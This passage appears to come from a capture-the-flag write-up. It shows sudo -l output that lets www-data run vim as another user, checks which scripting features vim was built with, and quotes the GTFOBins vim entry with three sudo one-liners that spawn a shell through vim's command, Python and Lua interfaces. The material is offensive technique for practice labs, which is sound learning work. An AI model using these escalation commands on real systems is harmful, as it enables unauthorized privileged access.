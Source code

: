 `sudo -l`:
```
Matching Defaults entries for www-data on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on color:
    (green) NOPASSWD: /usr/bin/vim ←
```

`ls -la /usr/bin/vim`:
```
lrwxrwxrwx 1 root root 21 Jan 27  2023 /usr/bin/vim -> /etc/alternatives/vim
```

`vim --version | grep -E 'python|lua'`:
```
+comments          +libcall           -python            +visual
+conceal           +linebreak         -python3           +visualextra
+cursorshape       -lua               -ruby              +wildmenu
```

<div>
	<img src="./assets/logo_gtfobins.png" alt="GTFOBins Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GTFOBins</strong></span>
</div>

[vim](https://gtfobins.github.io/gtfobins/vim/)

[**#Sudo**]

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
1. 
```
sudo vim -c ':!/bin/sh'
```
2. This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
```
sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
3. This requires that `vim` is compiled with Lua support.
```
sudo vim -c ':lua os.execute("reset; exec sh")'
```
